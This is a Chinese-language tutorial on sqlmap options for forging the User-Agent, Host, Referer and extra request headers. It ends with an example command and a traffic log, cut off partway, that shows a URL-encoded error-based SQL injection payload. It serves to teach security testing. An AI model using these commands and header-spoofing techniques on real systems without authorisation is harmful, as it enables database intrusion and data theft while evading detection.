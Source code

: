 

## User-Agent 相关参数

```
参数如下:
--user-agent
--random-agent

# --user-agent       # 是用来指定User-Agent的, 也就是不使用真实的User-Agent
# --random-agent     # 是从一个已经准备好的文件中比如txt文件中, 随机挑选一个user-agent来使用
                     # 
                    
```

> 注意: 由于`User-Agent`不是原来的那个真实的, 所以在测试的时候可能由于准备的`User-Agent`不正确而报错 , **报错如下**:
>
> ```
> #[hh:mm:20] [ERROR] the target URL responded with an unknown HTTP status code, try to 
> force the HTTP User-Agent header with option --user-agent or --random-agent
> 译：
> [hh:mm:20] [错误] 目标网址回复了未知的 HTTP 状态码，请尝试使用选项 --user-agent 或 
> --random-agent 强制指定 HTTP User-Agent 请求头
> ```





## --host

```
# 用于手动指定host请求头, 如果不指定默认使用真实的host
```



## --referer

```
# 用于伪造referer请求头
# 如果不指定该参数, sqlmap是不会对referer进行检测的
```



## --headers

> 用于添加额外的 **Http参数**的 , **`每个请求头都要用换行符分隔`**

```
sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?id=1" -z \
"ign,flu,bat,tec=E" --headers="Host:www.target.com\nUser-agent:Firefox 1.0" -v 5
[...]
[xx:xx:44] [TRAFFIC OUT] HTTP request [#5]:
GET /sqlmap/mysql/get_int.php?id=1%20AND%20%28SELECT%209351%20FROM%28SELECT%20C\
OUNT%28%2A%29%2CCONCAT%280x3a6161733a%2C%28SELECT%20%28CASE%20WHEN%20%285473%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3D%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
```